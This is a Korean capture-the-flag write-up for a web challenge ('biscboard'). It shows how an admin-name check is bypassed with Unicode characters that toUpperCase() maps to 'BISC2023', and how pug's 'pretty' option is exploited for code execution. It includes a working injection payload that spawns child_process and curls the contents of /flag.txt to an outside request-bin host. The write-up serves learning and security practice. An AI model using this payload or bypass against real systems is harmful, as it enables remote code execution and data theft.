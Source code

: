 <h1>1. 웹페이지 접속</h1>

![image](./image/biscboard1.png)


 

웹페이지에 접속 시 바로 login plz 라는 알림이 출력되며 로그인 페이지로 이동한다.

![image](./image/biscboard2.png)

 
  

Register 버튼을 클릭하여 계정 생성 페이지로 이동했을 때 로그인 페이지와 동일한 폼이 존재하며 아이디와 비밀번호를 입력하고 Register 버튼 클릭 시 계정 생성이 가능할 것으로 보여 ID : test, PW : test 로 계정을 생성하였다.

![image](./image/biscboard3.png)
 
 

 

그리고 생성한 ID 와 PW를 입력하여 로그인을 시도하였는데 로그인이 되지 않았다.


![image](./image/biscboard4.png)
 

웹페이지에서는 올바른 계정을 입력하였음에도 로그인이 되지 않는 이유를 알 수 없어 주어진 소스코드를 분석해보았다.

 

<h1>2. 소스코드 분석</h1>
 

<h2>2.1. /login</h2>
 
![image](./image/biscboard5.png)
 

먼저 로그인 페이지의 소스코드를 분석하였다. request를 통해 전달받은 값을 id, pw 변수에 저장한다. 그리고 id 변수에 저장된 값을 소문자로 치환하여 'bisc2023' 문자열과 비교하고 일치하면 'u r not admin' 알림을 출력하며 로그인 페이지로 리다이렉트시킨다.

 

그리고 id 파라미터로 전달받은 값이 'bisc2023' 이 아니라면 id 변수에 저장된 값을 대문자로 치환하여 accounts 변수에 저장된 값과 비교하게 되는데 id 변수에 저장된 값이 accounts 에 존재하고, accounts[id] 가 pw 변수에 저장된 값과 일치한다면 now 변수에 id 변수의 값을 담고 메인 페이지를 반환한다. accounts는 계정과 비밀번호를 가지고 있는 변수이다.

 

![image](./image/biscboard6.png)
 

여기에서 방금 계정을 생성하여도 로그인이 되지 않았던 이유를 알 수 있는데 바로 line 27에 있는 코드 때문이다. request 를 통해 입력받은 id 값이 'bisc2023' 이 아니라면 id 값을 대문자로 치환한 후 검증하는 과정을 거치게 되는데 가입 시에 ID : test, PW : test 로 가입하였지만 로그인 시에 ID : test 를 입력하면 TEST 로 치환한 후 accounts 변수에 담긴 계정 정보와 비교하게 되기 때문에 서로 일치하지 않아 로그인이 되지 않았던 것이다.

 

<h2>2.2. /edit</h2>
 

다음으로 주목했던 부분은 /edit 엔드포인트이다. 그 이유는 이곳에서만 유일하게 계정을 검증하는 로직이 존재하였기 때문이다.

![image](./image/biscboard7.png)
 

소스코드를 보면 line 93 ~ 95 까지의 코드에서 now 변수의 값을 검증하는 것을 알 수 있다. now 변수에 담기는 값은 위의 /login 소스코드에서 알 수 있는데 로그인에 성공하였을 때 id 변수의 값을 now 변수에 담는다. (/login 소스코드 line 29)

 

다른 엔드포인트에서는 특이한 부분을 발견하지 못하였으나 /edit 소스코드에서 사용자를 검증하여 해당 엔드포인트에 접근 하는 계정이 'BISC2023' 이 아니라면 pretty 변수를 false로 초기화하는 부분이 존재하였다. 해당 엔드포인트에서만 사용자를 검증하는 점, 그리고 'BISC2023' 계정이 아니라면 pretty 변수를 false 로 초기화 하는 것을 보고 해당 기능에 취약점이 있는지 검색한 결과 다음과 같은 글을 발견할 수 있었다.

 

참고자료 - https://github.com/pugjs/pug/issues/3312
 

 

해당 웹페이지는 pug 언어로 작성되어있으며 위 글은 pug에서 발견된 취약점에 대한 글이다. 간단하게 설명하면 pug로 웹페이지를 작성할 때 사용되는 pretty 변수에서 발견된 취약점에 대한 글이며 이 변수에 특정 구문을 삽입하면 삽입된 코드가 실행되는 취약점이라는 내용이다.

 

/edit 엔드포인트의 소스코드 중 line 92를 보면 로그인한 상태에서 pretty 변수에 request 값을 입력받지만 now 변수의 값이 'BISC2023' 이 아니라면 pretty 변수에 false를 저장하게 되므로 해당 취약점은 동작하지 않는다. 따라서 다음과 같은 공격 시나리오를 계획하였다.

<br>

<h1>3. 공격 시나리오</h1>
 

1) BISC2023 계정으로 로그인한다.

 

2) /edit 페이지로 이동하여 pretty 파라미터를 통해 구문을 삽입하여 코드를 실행시켜 flag를 획득한다.

 

 
<br>
<h1>4. 공격 과정</h1>
먼저 BISC2023 계정으로 로그인해야 한다. 그러기 위해 다음의 방법을 사용하였다.

 

https://blog.rubiya.kr/index.php/2018/11/29/strtoupper/

 

위의 글의 내용 중 다음과 같은 내용이 있다.

 

자바스크립트 환경에서 %C4%B1를 touppercase() 하면 == “I”가, %c5%bf를 touppercase()하면 == “S”가 된다라는 내용이 있는데 이 웹페이지에서는 로그인 시 id 값을 받고 소문자로 치환한 값이 bisc2023 이 아니라면 id 값을 대문자로 치환하는 toUpperCase() 함수를 사용한다. 따라서 다음의 id와 pw로 가입한 후 로그인을 시도하였다.

 

```
ID : B%C4%B1%c5%bfC2023
PW : TeamH4C
```

 

이 id와 pw로 가입 후 로그인하면 toLowerCase() 함수로 id 변수의 값을 치환하여도 bisc2023이 아니므로 이 id 값에 대해 toUpperCase() 함수를 실행하게 될 것이며 그러면 ID는 BISC2023이 되어 로그인 검증 과정을 우회하고 해당 계정으로 로그인할 수 있게 된다.

 

먼저 계정을 생성하였다.

 

![image](./image/biscboard8.png)
 

 

이후 생성한 계정으로 로그인을 시도하였고, BISC2023 계정으로 로그인에 성공하였다.

 

![image](./image/biscboard9.png)
 


![image](./image/biscboard10.png)
 

 

다음은 /edit 페이지에 접근하여 코드를 주입한다. /edit 페이지는 게시글을 수정하는 페이지이므로 먼저 게시글을 작성 후 /edit 페이지에 접근하였다.

 

/edit 페이지에서 다음의 구문을 삽입한다.

 

```
// curl 다음에 입력된 주소는 Request Bin 주소이며 사람에 따라 이 주소는 다를 수 있음.
');process.mainModule.constructor._load('child_process').exec('curl https://eodnnmy.request.dreamhack.games/$(cat /flag.txt)');_=('
``` 



![image](./image/biscboard11.png)
 

 

그리고 수정된 게시글에 접근하여 링크를 클릭하였을 때 코드가 실행되어 flag를 획득하였다.

 

![image](./image/biscboard12.png)
 



![image](./image/biscboard13.png)
 

 

<h1>5. Reference</h1>
 

- https://blog.rubiya.kr/index.php/2018/11/29/strtoupper/

 

- https://github.com/pugjs/pug/issues/3312
